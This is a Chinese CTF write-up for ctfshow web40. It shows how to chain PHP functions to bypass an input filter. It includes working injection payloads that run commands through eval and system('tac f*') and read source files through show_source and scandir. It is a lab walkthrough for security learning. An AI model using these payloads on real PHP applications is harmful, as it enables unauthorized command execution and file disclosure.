 ```yaml
---
title: PHP仅用函数实现执行命令或读取文件
date: 2024-05-15 21:53:24
permalink: /pages/d74e00/
categories:
  - web
tags:
  - php
author: 
  name: the0n3
  link: https://the0n3.top
---
```


# ctfshow web40 命令执行_php变量函数

> 使用php函数让服务器接收并执行自己的命令，获取权限或读取文件  

## 执行命令

```php
get_defined_vars()    # 获取所有系统定义的变量，用户定义的变量，post,get,file等，返回一个数组
next()                # 指向数组中变量的指针
array_pop()           # 弹出数组中最后一个元素
eval()                # 执行表达式或参数字符串命令
```

从里到外构造一下，执行最后一个定义的变量

连起来构造：  
**payload：url/?c=eval(array_pop(next(get_defined_vars())));**  

这个c的值会先获取服务器定义的所有变量，再利用这个数组的栈机制和next指针，获取服务器最后一个变量并执行  

构造完，他的变量数组最后一个定义的什么以及他会执行什么我们都不知道，用post给他传一个**1=system("tac f*");** 作为最后一个变量并执行  
 
## 读文件

```php
getcwd()            #  函数返回当前工作目录。它可以代替pos(localeconv())

localeconv()        #  返回包含本地化数字和货币格式信息的关联数组。这里主要是返回值为数组且第一项为"."

pos()               # 输出数组第一个元素，不改变指针；

current()           # 函数返回数组中的当前元素（单元）,默认取第一个值，和pos()一样

scandir()           # 函数返回指定目录中的文件和目录的数组。这里因为参数为"."所以遍历当前目录

array_reverse()     # 数组逆置

next()              # 将数组指针指向下一个，这里其实可以省略倒置和改变数组指针，直接利用[2]取出数组也可以

show_source()       # 查看源码
```

每个数组中都有一个内部的指针指向它的"当前"元素，初始指向插入到数组中的第一个元素。

提示：该函数不会移动数组内部指针

**payload：url/?c=show_source(next(array_reverse(scandir(getcwd()))));**

**payload：url/?c=show_source(next(array_reverse(scandir(pos(localeconv())))));**

船新玩法**var_dump**函数，待解锁！  

**类似函数var_export**
